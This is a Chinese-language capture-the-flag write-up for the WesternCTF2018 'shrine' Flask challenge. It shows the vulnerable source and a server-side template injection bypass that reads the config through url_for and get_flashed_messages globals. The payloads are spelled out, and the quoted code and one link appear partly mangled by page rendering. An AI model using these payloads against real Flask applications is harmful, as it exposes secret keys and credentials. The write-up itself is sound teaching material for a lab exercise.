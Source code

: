 # \[WesternCTF2018]shrine

## \[WesternCTF2018]shrine <a href="#2975378401" id="2975378401"></a>

## 考点

* Flask SSTI获取config信息
* Flask SSTI bypass

## wp

直接给了代码

```python
import flask 
import os 

app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 
@app.route('/') 
def index(): 
	return open(__file__).read() 
	
@app.route('/shrine/') 
def shrine(shrine): 
	def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
		blacklist = ['config', 'self'] 
        return ''.join(['{<div data-gb-custom-block data-tag="set"></div>}'.format(c) for c in blacklist]) + s 

	return flask.render_template_string(safe_jinja(shrine)) 

if __name__ == '__main__': 
	app.run(debug=True)
```

访问 `/shrine/` 是 404，访问 `/shrine/{{7*7}}` 可以发现存在 SSTI 漏洞，在代码中过滤了 `(, ), config, self` ，并且说明了 `flag` 在 `config` 中，可以读取 `app.config['FLAG']` 或者 `os.environ.pop('FLAG')`

这里的黑名单就锁死了 `__subclasses__()` 以及 `config` 和 `self.__dict__`

在 flask 的官方文档中写了一个 [url\_for](https://flask.palletsprojects.com/en/1.0.x/api/#flask.url\_forbaobaoer.cn/archives/656/python-b2e7b180e9b880e793) 函数，在它引用的内容中，有着 `current_app` 的全局变量，然后就可以直接读取 flag 了 `url_for.__globals__['current_app'].config['FLAG']`

![](../../.gitbook/assets/fxacIszu7Xv2k5T.png)

同样的，还有一个 [get\_flashed\_messages](https://flask.palletsprojects.com/en/1.0.x/api/#flask.get\_flashed\_messages) 函数

![](../../.gitbook/assets/ewNICLdgTVPh37S.png)

## 小结

1. Flask SSTI获取config除了`{{config}}`，还有`{{url_for.__globals__['current_app'].config['FLAG']}}`和`{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}`
